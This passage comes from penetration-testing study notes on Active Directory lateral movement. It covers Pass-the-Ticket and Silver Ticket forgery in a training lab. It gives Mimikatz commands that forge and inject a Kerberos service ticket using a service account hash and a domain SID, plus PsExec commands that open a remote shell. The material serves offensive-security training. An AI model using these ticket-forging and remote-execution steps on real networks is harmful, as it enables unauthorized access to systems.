 > ./PsExec.exe \\\dc01 cmd.exe

## Pass-The-Ticket

Takes advantage of the TGS, as it may be exported and re-injected back elsewhere in the network and then used to auth a specific service.

Suitable for cases where you do not have administrative accounts to execute the other methods.

- Does not offer escalation; offer flexibilty to choose which machine to use the ticket from
- If a service is registered with SPN and it is a local admin in any server, then use the previous methods

User and Group permissions in the service ticket are not verified by the application - app blindly trusts the integrity of the service ticket

- Forge our own service ticket to access the target resource with any permissions we desire - **Silver Ticket**

![b2722ba9be0c5bb4eb1a7e4a5d65dfd8.png](:/acc30ecf76ca497ca2426b9405549a62)

We can get the domain SID by using:

> whoami /user

![5d5e2a2710b9c078c4247c651997436b.png](:/bd0cf4f1c7e24611a040622ddf381854)

![8faa77505f9635a0382d3e60d856198c.png](:/817109c8049a46b29aa916897651b50c)

Method to craft the ticket in Mimikatz

> kerberos::purge
> 
> kerberos::list # make sure it is empty
> 
> kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:2892d26cdf84d7a70e2eb3b9f05c425e /ptt

/rc4: the password hash of the iss_service service account

![9fc60b320e5aa47a7e225ce1359d6855.png](:/c2469c7d959143ee983bd3c924f4c851)

https://github.com/backlion/Offensive-Security-OSCP-Cheatsheets/blob/master/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets.md

As follow up steps, we should inject the ticket into the memory and obtain a shell in the server we want to move to

> mimikatz # kerberos::ptt &lt;ticket\_kirbi\_file&gt;
> 
> CMD # .\\PsExec.exe -accepteula \\\labwws02.jurassic.park cmd

https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket

## DCOM (Distributed Component Object Model)
